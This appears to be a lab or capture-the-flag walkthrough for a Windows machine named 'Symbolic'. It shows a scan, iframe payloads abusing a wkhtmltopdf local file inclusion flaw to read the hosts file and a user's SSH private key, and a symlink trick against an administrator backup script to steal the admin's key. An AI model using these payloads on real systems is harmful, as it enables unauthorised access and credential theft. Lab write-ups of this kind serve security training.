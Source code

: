 # Symbolic

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.177
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 20:55 +08
Nmap scan report for 192.168.202.177
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

SSH was open on this machine, which was unusual for Windows.&#x20;

### WebPage to PDF -> LFI

Port 80 was rather simple:

<figure><img src="../../../.gitbook/assets/image (3029).png" alt=""><figcaption></figcaption></figure>

I created a HTML file with one word within it, then hosted it on my HTTP server and submitted the URL with my IP. This returned a PDF:

<figure><img src="../../../.gitbook/assets/image (1691).png" alt=""><figcaption></figcaption></figure>

I downloaded the PDF and used `exiftool` on it to enumerate any version:

```
$ exiftool ac354a9d4d469ef971709095540b2f42.pdf 
ExifTool Version Number         : 12.57
File Name                       : ac354a9d4d469ef971709095540b2f42.pdf
Directory                       : .
File Size                       : 6.6 kB
File Modification Date/Time     : 2023:07:06 21:03:17+08:00
File Access Date/Time           : 2023:07:06 21:03:17+08:00
File Inode Change Date/Time     : 2023:07:06 21:03:25+08:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Title                           : 
Creator                         : wkhtmltopdf 0.12.3
Producer                        : Qt 4.8.7
Create Date                     : 2023:07:06 06:02:52-07:00
Page Count                      : 1
```

Googling exploits for this version show that LFI is a possibility:

{% embed url="https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/" %}

{% embed url="https://www.jomar.fr/posts/2021/ssrf_through_pdf_generation/" %}

The exploit here is the content of the HTML file being used. Here's my PoC:

```html
<iframe src="C:/Windows/system32/drivers/etc/hosts">
```

When we host this HTML file on a HTTP server and use the website's converting feature, this is what we are returned:

<figure><img src="../../../.gitbook/assets/image (1918).png" alt=""><figcaption></figcaption></figure>

This confirms that LFI works. We can edit the PoC to show all the content:

```html
<iframe src="C:/Windows/system32/drivers/etc/hosts" height=1000 width=1000 />
```

<figure><img src="../../../.gitbook/assets/image (1692).png" alt=""><figcaption></figcaption></figure>

Now, we just need to find the correct file to read. The website gives us a username `p4yl0ad`, and SSH is open, so let's try to read the user's private key.

```markup
<iframe src="C:/users/p4yl0ad/.ssh/id_rsa" height=1000 width=1000 />
```

<figure><img src="../../../.gitbook/assets/image (4078).png" alt=""><figcaption></figcaption></figure>

Using this, we can `ssh` in as the user:

<figure><img src="../../../.gitbook/assets/image (3354).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup Script -> Symbolic Link Write

There was a `C:\backup` directory with a script in it:

```
p4yl0ad@SYMBOLIC C:\backup>dir 
 Volume in drive C has no label.
 Volume Serial Number is 5C30-DCD7

 Directory of C:\backup

03/10/2023  11:59 AM    <DIR>          .
03/10/2023  11:59 AM    <DIR>          ..
10/11/2021  09:11 PM               207 backup.ps1
07/06/2023  06:09 AM    <DIR>          logs

p4yl0ad@SYMBOLIC C:\backup>type backup.ps1 
$log = "C:\xampp\htdocs\logs\request.log" 
$backup = "C:\backup\logs"

while($true) {
        # Grabbing Backup
        copy $log $backup\$(get-date -f MM-dd-yyyy_HH_mm_s)
        Start-Sleep -s 60
}
```

There was a backup directory being updated, and this script was running once every minute or so. The script is also owned by the administrator:

```
p4yl0ad@SYMBOLIC C:\backup>icacls backup.ps1
backup.ps1 SYMBOLIC\Administrator:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Administrators:(I)(F)
           BUILTIN\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

We also have write access over `C:\xampp\htdocs\logs\request.log`, meaning that we can create a symbolic link to make the script read and copy any file we want. Again, since SSH is open, we can attempt to get the admin's private key.&#x20;

First we need to delete the `logs` directory:

```
p4yl0ad@SYMBOLIC C:\xampp\htdocs>del logs 
C:\xampp\htdocs\logs\*, Are you sure (Y/N)? y
```

We cannot create a symbolic link to the private SSH key using conventional means because we aren't given access:

```
p4yl0ad@SYMBOLIC C:\backup>powershell -c New-item -ItemType SymbolicLink -Path "C:/xampp/htdocs/logs/request.log" -T
arget "C:/users/administrator/.ssh/id_rsa"
New-item : Access is denied
At line:1 char:1
+ New-item -ItemType SymbolicLink -Path C:/xampp/htdocs/logs/request.lo ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\users\administrator\.ssh\id_rsa:String) [New-Item], Unauthoriz  
   edAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.NewItemCommand        
 
New-item : Cannot find path 'C:\users\administrator\.ssh\id_rsa' because it does not exist.
At line:1 char:1
+ New-item -ItemType SymbolicLink -Path C:/xampp/htdocs/logs/request.lo ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\users\administrator\.ssh\id_rsa:String) [New-Item], ItemNotFound  
   Exception
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.NewItemCommand
```

We can create a junction however:

```
p4yl0ad@SYMBOLIC C:\xampp\htdocs\logs>dir 
 Volume in drive C has no label. 
 Volume Serial Number is 5C30-DCD7

 Directory of C:\xampp\htdocs\logs

07/06/2023  06:22 AM    <DIR>          .
07/06/2023  06:22 AM    <DIR>          ..
07/06/2023  06:22 AM    <JUNCTION>     request.log [C:\Users\Administrator\.ssh\id_rsa]
```

But the above won't work. What worked was `CreateSymlink.exe` from this repo:

{% embed url="https://github.com/googleprojectzero/symboliclink-testing-tools" %}

We can download and upload that binary. Then, we can run it:

```
p4yl0ad@SYMBOLIC C:\Windows\Tasks>.\CreateSymlink.exe "C:\xampp\htdocs\logs\request.log" "C:\users\administrator\.ss
h\id_rsa"
Opened Link \RPC Control\request.log -> \??\C:\users\administrator\.ssh\id_rsa: 00000174 
Press ENTER to exit and delete the symlink
```

I waited for a while and then deleted the symlink. When we check the `C:\backup\logs` directory's newest file that is significantly larger than the rest, we find an SSH key:

<figure><img src="../../../.gitbook/assets/image (2405).png" alt=""><figcaption></figcaption></figure>

Then, use this key to `ssh` in as the administrator:

<figure><img src="../../../.gitbook/assets/image (608).png" alt=""><figcaption></figcaption></figure>
